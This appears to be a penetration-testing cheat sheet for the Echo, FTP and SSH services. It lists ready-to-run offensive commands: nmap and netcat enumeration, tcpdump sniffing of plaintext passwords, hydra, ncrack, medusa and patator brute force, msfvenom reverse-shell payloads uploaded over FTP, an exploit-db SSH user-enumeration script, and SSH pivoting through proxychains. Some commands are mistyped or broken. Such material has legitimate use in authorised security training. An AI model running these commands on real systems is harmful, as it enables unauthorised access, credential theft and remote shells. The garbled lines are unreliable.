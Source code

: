 # 7 - Echo
### Contact Echo Service through netcat 

    $ nc -uvn [TARGET_IP] 7
    $ Hello echo    
Response should be the same as input 

Other attacks: 

# 21 - FTP
### NMAP FTP Enumeration

    $ nmap -p 21 [TARGET_IP] 

### Banner Grabbing 

    $ telnet [TARGET_IP] 21 
    $ nc -vn [TARGET_IP] 21 

### NMAP Unauth Enum 
Checks if an FTP server allows anonymous logins.

    $ sudo nmap -sV -p21 -sC -A [TARGET_IP]

### TCPDump FTP Traffic 

Capture ftp traffic

    $ tcpdump -vvAs0 port ftp or ftp-data

Capture credentials in plain text through unencrypted traffic (HTTP, FTP, TELNET)

    $ tcpdump -A -i eth0 'port http or port ftp or port telnet' | grep -i 'user\|pass\|login'

### FTP Connection 
Access the host utilizing FTP

    $ ftp [TARGET_IP]
    $ ftp@[TARGET_IP] 
    $ ccftp [TARGET_IP]

### FTP Access: Anonymous 
FTP login attempt on host with the user anonymous.

    $ ftp [TARGET_IP]username:anonymous

### Available Metasploit - Auxiliary Modules

    auxiliary/scanner/ftp/anonymous
    auxiliary/scanner/ftp/ftp_version
    auxiliary/scanner/ftp/ftp_login

### Browser Connection 

    ftp://anonymous:anonymous@[TARGET_IP] 

### Download all files from FTP 

    $ wget -m ftp://anonymous:anonymous@<Target_IP>
    $ wget -m --no-passive ftp://anonymous:anonymous@<Target_IP>

### Connect to FTP using starttls 

    $ lftp
    $ lftp :~> set ftp:ssl-force true
    $ lftp :~> set ssl:verify-certificate no
    $ lftp :~> connect [TARGET_IP] 
    $ lftp [TARGET_IP]:~> login                        

Usage: login <user|URL> [<pass>]

    $ lftp <Target IP>:~> login username Password 

### If username/password is found:

    1. Connect client to FTP Server through WinSCP
    2. Protocol to: FTP
    3. Encryption To: No Encryption
    4. Host name: IP of the FTP Server
    5. Port: 21
    6. Username and Password: anonymous: anonymous
    7. Click on login
 
### FTP Brute Force 

    $ hydra -l root -P passwords.txt [-t 32] [TARGET_IP] ftp
    $ ncrack -p 21 --user root -P passwords.txt [TARGET_IP] [-T 5]
    $ medusa -u root -P 500-worst-passwords.txt -h [TARGET_IP] -M ftp

### Metasploit - Upload File through FTP (Windows)
Use exploit/multi/handler 
Options 
Set payload windows/meterpreter/reverse_tcp
Set lhost
Run

 

      msfvenom -P windows/meterpreter/reverse_tcp LHOST=<IPAddress> LPORT=4444 -f aspx -o <filename.aspx>  

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf 

msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf 

 

FTP [TARGET_IP] 21 

Username= anonymous, password = none 

Put <filename.aspx> 

 

Metasploit 

PROFtpd 133c Backdoor 

 

 


Method 

Commands 

Description 

SSH Banner Grab 

 

nc [TARGET_IP] 22 

telnet [TARGET_IP] 22 

nmap -sV [TARGET_IP] 

ssh -v [TARGET_IP] 

Commands will grab banner for the SSH service running on port 22 in the remote host  

Connect to SSH 

ssh root@[TARGET_IP] 

ssh –i key <user name>@[TARGET_IP] (Connect with private Key) 

ssh command is used to securely log into a remote machine and execute commands on that machine  

Available Default Nmap Scripts 

nmap --script ssh2-enum-algos [TARGET_IP] 

nmap --script ssh-hostkey --script-args ssh_hostkey=full [TARGET_IP] 

nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<username>" [TARGET_IP] 

nmap host --script ssh-hostkey --script-args ssh_hostkey=full 

nmap host --script ssh-hostkey --script-args ssh_hostkey=all 

nmap host --script ssh-hostkey --script-args ssh_hostkey='visual bubble' 

nmap -p 22 --script ssh-brute --script-args userdb=/root/users [TARGET_IP] 

Will show how many encryption algorithms there are supported by the SSH Server. 

User Enumeration 

echo "administrator" > users 

python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt [TARGET_IP] 

 

SSH Legacy Options 

ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 user@[TARGET_IP] 

Unable to negotiate with legacyhost: no matching key exchange method found. Their offer: diffie-hellman-group1-sha1 

Can Change group1 to whichever is listed, ie group14 etc 

Available Metasploit Auxiliary Modules 

auxiliary/scanner/ssh/ssh_login 

auxiliary/scanner/ssh/ssh_login_pubkey 

USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt  

Brute Force 

hydra -l root -P /usr/share/wordlists/rockyou.txt [-t 32] [TARGET_IP] ssh 

ncrack -p 22 --user root -P passwords.txt [TARGET_IP] [-T 5] 

medusa -u root -P 500-worst-passwords.txt -h [TARGET_IP]-M ssh 

patator ssh_login host=[TARGET_IP] port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed' 

 

Known Configuration SSH Files 

ssh_config 

sshd_config 

authorized_keys 

ssh_known_hosts 

.shosts 

 

SSH Pivoting 

ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip (Add socks4 127.0.0.1 1010 in /etc/proxychains.conf) 

 

SSH pivoting from one network to another 

 

ssh -D 127.0.0.1:1010 -p 22 user1@ip-address-1 (Add socks4 127.0.0.1 1010 in /etc/proxychains.conf) 

proxychains ssh -D 127.0.0.1:1011 -p 22 user1@ip-address-2 (Add socks4 127.0.0.1 1011 in /etc/proxychains.conf) 

 

 

